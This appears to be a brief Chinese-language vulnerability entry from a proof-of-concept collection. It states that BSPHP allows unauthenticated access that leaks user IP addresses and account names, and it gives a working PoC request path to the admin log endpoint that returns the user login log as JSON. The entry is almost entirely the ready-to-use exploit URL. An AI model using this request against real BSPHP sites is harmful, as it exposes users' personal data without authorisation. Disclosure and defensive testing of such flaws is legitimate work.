 ## BSPHP 存在未授权访问 泄露用户 IP 和 账户名信息
poc:
url+`/admin/index.php?m=admin&c=log&a=table_json&json=get&soso_ok=1&t=user_login_log&page=1&limit=10&bsphptime=1600407394176&soso_id=1&soso=&DESC=0`
